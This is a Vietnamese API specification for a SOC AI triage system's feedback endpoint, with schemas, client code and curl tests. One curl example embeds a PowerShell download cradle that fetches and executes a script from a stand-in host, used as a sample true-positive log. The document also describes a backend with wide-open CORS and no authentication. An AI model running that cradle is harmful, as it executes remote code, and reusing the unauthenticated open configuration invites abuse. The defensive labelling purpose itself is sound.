

# SOC AI Triage — Feedback Loop API Contract

> **Mục đích tài liệu:** Bản đặc tả API Contract này được thiết kế chi tiết, rõ ràng và chuẩn hóa để bạn có thể **gửi trực tiếp kèm theo prompt khi "vibe coding" ở bất kỳ hệ thống nào khác** (Frontend React/Vue, SOAR, SIEM, Discord/Slack Bot, Backend Microservices, Extension...). Agent ở hệ thống đó chỉ cần đọc file này là có thể tự động sinh mã nguồn tích hợp gọi Feedback Loop chính xác 100%.

---

## 🤖 Prompt mẫu dành cho AI Agent khi Vibe Code ở hệ thống khác

Nếu bạn dùng Cursor, Claude, ChatGPT, Copilot hoặc bất kỳ AI Agent nào để code hệ thống khác, hãy copy đoạn này gửi kèm:

```markdown
Bạn là lập trình viên tích hợp hệ thống. Hãy đọc kỹ file API Contract này để hiện thực chức năng 
gửi phản hồi (Feedback Loop) từ hệ thống của chúng ta sang SOC AI Triage Backend.
- Đích gọi: POST /feedback
- Đảm bảo xử lý đầy đủ các trường: raw_log, label ("FP" | "TP" | "Incident"), analyst_comment.
- Bắt và xử lý chính xác các HTTP status codes: 200, 422, 503, và lỗi mạng (timeout/connect error).
- Hiển thị phản hồi trực quan cho người dùng gồm: action (inserted/reinforced/corrected) và trust_score (1-5 sao).
```

---

## 1. Tổng quan kiến trúc & Cơ chế hoạt động của Feedback Loop

Feedback Loop là cơ chế **Active Learning (Human-in-the-Loop)** giúp hệ thống SOC AI ngày càng thông minh hơn:
1. Khi Chuyên viên phân tích SOC (hoặc hệ thống của bạn) xác nhận hoặc sửa nhãn của một log bảo mật:
   - **`FP` (False Positive):** Cảnh báo giả, hành vi bình thường, IP quét an ninh định kỳ, v.v.
   - **`TP` (True Positive):** Tấn công mạng thực sự đã được phát hiện.
   - **`Incident`:** Sự cố nghiêm trọng cần kích hoạt quy trình ứng cứu sự cố khẩn cấp.
2. Hệ thống backend sẽ:
   - Vector hóa log (`raw_log`) bằng mô hình embedding `nomic-ai/nomic-embed-text-v1.5` (768 chiều).
   - Tra cứu trong Vector Database (**Qdrant**) với ngưỡng tương đồng Cosine Similarity `0.92`.
   - **Ma trận quyết định Gradual Trust Scoring:**
     - **Không có log tương đồng ($\le 0.92$):** Tạo mới vector point (`action: "inserted"`, `trust_score: 1`).
     - **Có log tương đồng ($> 0.92$) & Cùng nhãn:** Tăng độ tin cậy (`action: "reinforced"`, `trust_score: min(hiện_tại + 1, 5)`).
     - **Có log tương đồng ($> 0.92$) & Khác nhãn:** Sửa lại nhãn theo analyst (`action: "corrected"`, ghi đè nhãn + comment, reset `trust_score: 1`).
3. Các ca đã lưu feedback này sẽ được RAG (Retrieval-Augmented Generation) tự động nạp vào ngữ cảnh của LLM trong các lượt phân tích `/analyze` tiếp theo.



---

## 2. Thông số kết nối & Chính sách CORS (Network Configuration)

### 2.1 Base URLs

| Môi trường | Base URL | Ghi chú |
| :--- | :--- | :--- |
| **Local Machine (Cùng máy Host)** | `http://localhost:8080` | Khi hệ thống khác chạy trực tiếp trên máy dev |
| **LAN / Remote Server** | `http://<IP_MAY_CHU_SOC>:8080` | Khi hệ thống khác chạy ở máy khác trong mạng nội bộ / VPN |
| **Cùng mạng Docker (Docker Compose)** | `http://api-backend:8080` | Khi hệ thống khác là 1 service trong Docker Compose cùng network `chilling-soc-net` |

### 2.2 Chính sách CORS (Cross-Origin Resource Sharing)

Hệ thống đã được cấu hình **mở hoàn toàn (Fully Permissive CORS)**:
- `Access-Control-Allow-Origin: *` (Cho phép mọi domain, mọi port, mọi frontend client gọi trực tiếp không bị chặn).
- `Access-Control-Allow-Methods: *` (GET, POST, OPTIONS, PUT, DELETE...).
- `Access-Control-Allow-Headers: *` (Cho phép mọi request header như `Content-Type`, `Authorization`...).
- `Access-Control-Expose-Headers: *` (Cho phép client đọc tất cả response headers).
- `Access-Control-Max-Age: 86400` (Preflight OPTIONS được cache 24h để tối ưu tốc độ).

> **Lưu ý xác thực (Authentication):** Hiện tại API backend là microservice nội bộ, **không yêu cầu API Key hay Bearer Token**. Bạn chỉ cần gửi header `Content-Type: application/json`.

---

## 3. Liveness Check Endpoint (`GET /health`)

Trước khi gọi feedback, client có thể thăm dò trạng thái kết nối tới SOC Backend:

- **Method:** `GET`
- **Path:** `/health`
- **Full URL:** `http://localhost:8080/health`

### Response Mẫu (200 OK):
```json
{
  "status": "healthy",
  "qdrant": "connected",
  "llm": "connected",
  "llm_models": [
    "fdtn-ai/Foundation-Sec-8B"
  ]
}
```
> Nếu trường `"qdrant": "unreachable"`, việc gọi `/feedback` có thể trả về lỗi `503 Service Unavailable`.

---

## 4. Đặc tả chi tiết Endpoint Feedback (`POST /feedback`)

- **Method:** `POST`
- **Path:** `/feedback`
- **Full URL:** `http://localhost:8080/feedback`
- **Headers bắt buộc:**
  ```http
  Content-Type: application/json
  Accept: application/json
  ```

### 4.1 Request Body Schema

Dữ liệu gửi lên là một JSON Object với các trường sau:

| Trường | Kiểu dữ liệu | Bắt buộc | Mặc định | Ràng buộc / Enum | Mô tả |
| :--- | :--- | :---: | :---: | :--- | :--- |
| `raw_log` | `string` | **Có** | — | `min_length >= 1` | Nội dung log thô cần lưu feedback (Syslog, Suricata, Windows Event, Firewall, JSON string...). |
| `label` | `string` | **Có** | — | `"FP"` \| `"TP"` \| `"Incident"` | **FP**: False Positive (bình thường/cảnh báo giả)<br>**TP**: True Positive (tấn công thực sự)<br>**Incident**: Sự cố khẩn cấp |
| `analyst_comment` | `string` | Không | `""` | Chuỗi văn bản | Ghi chú, giải thích của chuyên viên phân tích (ví dụ: "IP của Nessus scanner", "Hành vi brute-force SSH"). |

#### Ví dụ Request Body:
```json
{
  "raw_log": "Aug 22 14:33:12 fw01 kernel: DROP IN=eth0 OUT= SRC=203.0.113.42 DST=10.0.0.5 PROTO=TCP SPT=49152 DPT=443",
  "label": "FP",
  "analyst_comment": "IP 203.0.113.42 là địa chỉ của máy kiểm thử bảo mật định kỳ, lưu lượng bình thường."
}
```

---

### 4.2 Response Schema (Thành công - HTTP 200 OK)

Trả về JSON Object xác nhận đã lưu thành công vào Vector DB:

| Trường | Kiểu dữ liệu | Giá trị có thể có | Mô tả |
| :--- | :--- | :--- | :--- |
| `status` | `string` | `"stored"` | Trạng thái lưu trữ thành công |
| `point_id` | `string` | UUID string (vd: `3fa85f64-5717-4562-b3fc-2c963f66afa6`) | Định danh bản ghi trong Qdrant Vector DB |
| `action` | `string` | `"inserted"` \| `"reinforced"` \| `"corrected"` | Hành vi xử lý của hệ thống (xem chi tiết bên dưới) |
| `trust_score` | `integer` | `1` đến `5` | Điểm tin cậy hiện tại của tri thức này (1 sao đến 5 sao) |

#### Ý nghĩa của trường `action`:
1. **`"inserted"`**: Log này là mẫu mới hoàn toàn chưa từng có trong Knowledge Base. Hệ thống tạo bản ghi mới với `trust_score = 1`.
2. **`"reinforced"`**: Log này tương đồng với một log đã có trong DB và bạn gán **cùng nhãn** với nhãn cũ. Hệ thống tăng điểm tin cậy `trust_score` lên thêm 1 (tối đa là 5).
3. **`"corrected"`**: Log này tương đồng với log đã có nhưng bạn gán **nhãn khác** (sửa sai cho AI hoặc sửa sai cho phân tích cũ). Hệ thống cập nhật lại nhãn mới và reset `trust_score = 1`.

#### Ví dụ Response khi INSERT mới:
```json
{
  "status": "stored",
  "point_id": "9b1deb4d-3b7d-4bad-9bdd-2b0d7b3dcb6d",
  "action": "inserted",
  "trust_score": 1
}
```

#### Ví dụ Response khi REINFORCE (củng cố tri thức):
```json
{
  "status": "stored",
  "point_id": "9b1deb4d-3b7d-4bad-9bdd-2b0d7b3dcb6d",
  "action": "reinforced",
  "trust_score": 3
}
```

#### Ví dụ Response khi CORRECT (sửa lại nhãn):
```json
{
  "status": "stored",
  "point_id": "9b1deb4d-3b7d-4bad-9bdd-2b0d7b3dcb6d",
  "action": "corrected",
  "trust_score": 1
}
```

---

### 4.3 Error Responses (Mã lỗi & Cách xử lý)

| HTTP Code | Tên lỗi | Nguyên nhân | Cấu trúc Body | Hành động đề xuất cho Client |
| :---: | :--- | :--- | :--- | :--- |
| **`422`** | Unprocessable Entity | Dữ liệu gửi lên sai định dạng (thiếu `raw_log`, `raw_log` rỗng, hoặc `label` không nằm trong enum `["FP", "TP", "Incident"]`). | `{"detail": [{"loc": ["body", "label"], "msg": "Input should be 'FP', 'TP' or 'Incident'", "type": "literal_error"}]}` | Kiểm tra và validate form input trước khi gửi request. |
| **`503`** | Service Unavailable | Qdrant Vector DB gặp sự cố hoặc không ghi được dữ liệu. | `{"detail": "Vector DB write failed: <thông tin lỗi>"}` | Thông báo người dùng thử lại sau, hoặc thử kiểm tra `GET /health`. |
| **`502` / `ConnectError`** | Bad Gateway / Network Error | Backend chưa bật hoặc sai cổng/IP mạng. | HTML/Text hoặc Network Exception từ thư viện HTTP | Kiểm tra lại URL backend và mạng kết nối. |

#### Ví dụ phản hồi lỗi 422 khi truyền sai `label`:
```json
{
  "detail": [
    {
      "type": "literal_error",
      "loc": ["body", "label"],
      "msg": "Input should be 'FP', 'TP' or 'Incident'",
      "input": "BENIGN",
      "ctx": {
        "expected": "'FP', 'TP' or 'Incident'"
      }
    }
  ]
}
```

#### Ví dụ phản hồi lỗi 422 khi thiếu `raw_log`:
```json
{
  "detail": [
    {
      "type": "missing",
      "loc": ["body", "raw_log"],
      "msg": "Field required",
      "input": {}
    }
  ]
}
```

---

## 5. TypeScript & Python Data Contracts (Dành cho Vibe Coding)

### 5.1 TypeScript / JavaScript Interfaces

```typescript
export type FeedbackLabel = "FP" | "TP" | "Incident";
export type FeedbackAction = "inserted" | "reinforced" | "corrected";

export interface FeedbackRequest {
  /** Nội dung log thô bắt buộc, không được để trống */
  raw_log: string;
  /** Nhãn phân loại bảo mật */
  label: FeedbackLabel;
  /** Ghi chú phân tích của chuyên viên (tùy chọn) */
  analyst_comment?: string;
}

export interface FeedbackResponse {
  /** Luôn là "stored" khi thành công */
  status: string;
  /** ID định danh của point trong Qdrant Vector DB */
  point_id: string;
  /** Hành động đã thực hiện: "inserted" | "reinforced" | "corrected" */
  action: FeedbackAction;
  /** Điểm tin cậy từ 1 đến 5 */
  trust_score: number;
}

export interface HealthCheckResponse {
  status: "healthy" | string;
  qdrant?: "connected" | "unreachable";
  llm?: "connected" | "unreachable";
  llm_models?: string[];
}
```

### 5.2 Python Pydantic Models

```python
from typing import Literal
from pydantic import BaseModel, Field

class FeedbackRequest(BaseModel):
    raw_log: str = Field(..., min_length=1, description="Raw log entry to store feedback for")
    label: Literal["FP", "TP", "Incident"]
    analyst_comment: str = Field(default="", description="Analyst comment for the feedback")

class FeedbackResponse(BaseModel):
    status: str
    point_id: str
    action: Literal["inserted", "reinforced", "corrected"]
    trust_score: int = Field(ge=1, le=5)
```

---

## 6. Code mẫu tích hợp sẵn sàng Copy-Paste

### 6.1 TypeScript / JavaScript (Modern `fetch`)

```typescript
/**
 * Gửi phản hồi phân loại log tới SOC AI Triage Backend
 * @param baseUrl URL của backend (ví dụ: 'http://localhost:8080')
 * @param payload Dữ liệu feedback
 */
export async function submitSOCFeedback(
  baseUrl: string,
  payload: {
    raw_log: string;
    label: "FP" | "TP" | "Incident";
    analyst_comment?: string;
  }
) {
  const url = `${baseUrl.replace(/\/+$/, '')}/feedback`;

  const response = await fetch(url, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      "Accept": "application/json",
    },
    body: JSON.stringify({
      raw_log: payload.raw_log,
      label: payload.label,
      analyst_comment: payload.analyst_comment ?? "",
    }),
  });

  if (!response.ok) {
    let errorDetail = `HTTP ${response.status} ${response.statusText}`;
    try {
      const errJson = await response.json();
      errorDetail = JSON.stringify(errJson);
    } catch {
      // ignore json parse error
    }
    throw new Error(`Failed to submit feedback: ${errorDetail}`);
  }

  return (await response.json()) as {
    status: string;
    point_id: string;
    action: "inserted" | "reinforced" | "corrected";
    trust_score: number;
  };
}

// ── Ví dụ gọi hàm:
// submitSOCFeedback("http://localhost:8080", {
//   raw_log: "Aug 22 14:33:12 fw01 kernel: DROP IN=eth0 ...",
//   label: "FP",
//   analyst_comment: "IP scan nội bộ",
// }).then((res) => {
//   console.log("Feedback saved:", res.action, "Trust:", res.trust_score);
// });
```

### 6.2 Python (`httpx` / `requests`)

```python
import httpx

def send_feedback(
    base_url: str,
    raw_log: str,
    label: str,  # "FP", "TP", or "Incident"
    comment: str = "",
    timeout: float = 30.0,
) -> dict:
    url = f"{base_url.rstrip('/')}/feedback"
    payload = {
        "raw_log": raw_log,
        "label": label,
        "analyst_comment": comment,
    }
    
    with httpx.Client(timeout=timeout) as client:
        resp = client.post(url, json=payload)
        resp.raise_for_status()
        return resp.json()

# ── Ví dụ gọi hàm:
# res = send_feedback(
#     base_url="http://localhost:8080",
#     raw_log="192.168.1.50 - - [12/Sep/2026:10:00:00 +0000] \"GET /admin/shell.php HTTP/1.1\" 404",
#     label="TP",
#     comment="Webshell probing attack detected on perimeter",
# )
# print(f"Action: {res['action']} | Trust Score: {res['trust_score']}/5 | ID: {res['point_id']}")
```

### 6.3 cURL Command Test nhanh

```bash
# 1. Gửi Feedback nhãn False Positive (FP)
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "Aug 22 14:33:12 fw01 kernel: DROP IN=eth0 OUT= SRC=203.0.113.42 DST=10.0.0.5 PROTO=TCP DPT=443",
       "label": "FP",
       "analyst_comment": "Whitelisted scanner IP"
     }'

# 2. Gửi Feedback nhãn True Positive (TP)
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring(\x27http://bad.ip/evil.ps1\x27))",
       "label": "TP",
       "analyst_comment": "PowerShell download cradle detected"
     }'

# 3. Gửi Feedback nhãn Incident
curl -X POST "http://localhost:8080/feedback" \
     -H "Content-Type: application/json" \
     -d '{
       "raw_log": "w3wp.exe spawned cmd.exe whoami /priv -> Domain Controller synced NTDS.dit dump",
       "label": "Incident",
       "analyst_comment": "Active RCE webshell escalating to domain compromise"
     }'
```

---

## 7. Checklist kiểm tra khi Vibe Code

Khi agent ở hệ thống khác code xong, bạn có thể kiểm tra nhanh theo checklist sau:

- [ ] **URL cấu hình:** Có thể linh hoạt đổi giữa `http://localhost:8080` (dev) và URL production qua biến môi trường (ví dụ `REACT_APP_SOC_API_URL` hoặc `VITE_SOC_API_URL` hoặc `SOC_API_URL`).
- [ ] **Validation đầu vào:** Không gửi request nếu `raw_log` rỗng hoặc chỉ có khoảng trắng.
- [ ] **Nhãn hợp lệ:** Giá trị `label` bắt buộc phải là một trong ba chuỗi chính xác: `"FP"`, `"TP"`, hoặc `"Incident"`.
- [ ] **Xử lý UI trạng thái:**
  - Nếu `action == "inserted"`: Hiển thị thông báo "Đã tạo mẫu mới vào cơ sở tri thức (Trust: 1/5)".
  - Nếu `action == "reinforced"`: Hiển thị thông báo "Đã củng cố độ tin cậy của mẫu (Trust: X/5)".
  - Nếu `action == "corrected"`: Hiển thị thông báo "Đã hiệu chỉnh lại nhãn phân loại (Trust reset về 1/5)".
- [ ] **Bắt lỗi mạng:** Có spinner/loading và thông báo lỗi rõ ràng nếu backend không phản hồi hoặc trả về mã lỗi 4xx/5xx.
